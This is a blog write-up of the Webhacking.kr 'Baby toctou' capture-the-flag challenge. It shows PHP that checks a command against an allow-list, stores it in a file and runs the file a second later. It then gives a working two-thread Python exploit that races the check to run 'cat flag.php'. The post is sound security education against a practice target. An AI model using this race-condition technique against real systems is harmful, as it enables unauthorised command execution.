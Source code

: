 ```yaml
---
layout: post
title: "[Webhacking.kr] Baby toctou 🍼 writeup"
categories: hacking writeup web
---
```


## Introduction

Link: http://webhacking.kr:10019/

I decided to give myself a try on this challenge which was solved my only 42 people at the time. I thought it would be a challenging (and interesting) one. In the end this one was not that hard, but surely an interesting one.

## First look

```php
<?php
  // system($_GET['q']);
  if(!preg_match('/^[a-f0-9]+$/',$_COOKIE['baby_toctou'])){ $newCookie = uniqid().rand(1,999999999); setcookie("baby_toctou",$newCookie); $_COOKIE['baby_toctou'] = $newCookie; }
  $cmd = $_GET['q'];
  $myfile = fopen("user/{$_COOKIE['baby_toctou']}.sh", "w") or die("Unable to open file!");
  fwrite($myfile, $cmd);
  fclose($myfile);
  if(($cmd === "ls") || ($cmd === "cat api.php") || ($cmd === "cat index.php")){ // valid check
    sleep(1); // my server is small and weak
    system("sh ./user/{$_COOKIE['baby_toctou']}.sh");
  }
  else{
    echo <<<HELP
only "ls", "cat api.php", "cat index.php" allowed
HELP;
  }
?>
```

This `api.php` simply writes the command you want to execute into a file named by the `baby_toctou` cookie. After writing the file, it checks the command before executing the file.
Nothing's wrong with the `if` check, so what could go wrong?

## Race condition

Now what if we change the content of the file after the `if` condition successes? We have a generously 1 second for that.

But how can we? Isn't the program running top-down?

What if we have 2 people P1 and P2, one executes, and one edits the content?
Here's the idea:

| Step | P1                              | P2                                |
| ---- | ------------------------------- | --------------------------------- |
| 1    | Writes `ls` to the file         | -                                 |
| 2    | Passes the `if` check           | -                                 |
| 3    | Waits 1 second before executing | Writes `cat flag.php` to the file |
| 4    | Executes the file               | Fails the `if` check              |

Easy!

## Exploitation

There's not much to talk about this, but I'll post my code here as a reference.

```python
import requests, threading, time

def send(cmd):
    cookies = {
        'PHPSESSID': 'ofq76t3822i5ee1plskj2bafmt',
        'baby_toctou': 'abc91', # just a random string, anything will work
    }

    headers = {
        'Accept': '*/*',
        'Accept-Language': 'en-US,en;q=0.9',
        'Connection': 'keep-alive',
        # 'Cookie': 'PHPSESSID=ofq76t3822i5ee1plskj2bafmt; baby_toctou=abc91',
        'DNT': '1',
        'Referer': 'http://webhacking.kr:10019/',
        'User-Agent': 'Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/113.0.0.0 Safari/537.36',
    }

    params = {
        'q': cmd,
    }

    response = requests.get('http://webhacking.kr:10019/api.php', params=params, cookies=cookies, headers=headers, verify=False)
    print(response.text)

p1 = threading.Thread(target=send, args=('ls',))
p2 = threading.Thread(target=send, args=('cat flag.php',))


print('[info] getting in ...')

p1.start()
time.sleep(0.25)
p2.start()
```

## Conclusion

This challenge helped me develop my sense of a non-linear attack. Always think of a multi-user situation!
